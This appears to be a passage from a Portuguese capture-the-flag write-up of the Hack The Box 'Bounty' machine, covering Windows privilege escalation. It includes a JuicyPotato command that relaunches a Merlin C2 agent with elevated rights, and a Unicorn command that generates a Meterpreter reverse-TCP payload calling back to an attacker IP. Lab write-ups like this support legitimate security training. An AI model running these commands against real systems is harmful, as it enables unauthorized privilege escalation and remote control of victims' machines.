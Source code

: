 Podemos usar módulos para escalação de privilégio

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_merlin12.png)

# Escalação de Privilégio

Verificamos as permissões pelo `whoami /priv`

Verificamos o SeImpersonatePrivilege habilitado! Podemos executar o `JuicyPotato`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_priv.png)

Baixamos o JuicyPotato

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_priv1.png)

Novamente, como sou preguiçoso pra caralho vou nos releases

> https://github.com/ohpe/juicy-potato/releases

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_priv2.png)

Enviamos para a máquina

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_priv3.png)

Agora executamos ele para executar o agent do merlin novamente e nos dar outra seção de authority agora

> cmd C:\\Users\Public\JuicyPotato.exe -t * -p C:\\Users\\Public\\agent.exe -l 5555

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_priv4.png)

# Usando o Unicorn

### Agora utilizaremos o Unicorn também, já que estamos no embalo

A ideia dele é a mesma do Merlin, ele é um C2. Qual é melhor? Sei lá, os dois cumprem a finalidade.

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_uni.png)

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_uni1.png)

Após baixar pra nossa Kali (no caso eu usei uma release da versão 3.4.5, não sei por que outras versões não funcionaram corretamente)

Executamos ele

> python unicorn.py windows/meterpreter/reverse_tcp 10.10.16.119 443

Devemos setar o payload utilizado, o IP e a porta que irá receber a conexão 

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/htb-bounty/B_uni2.1.png)
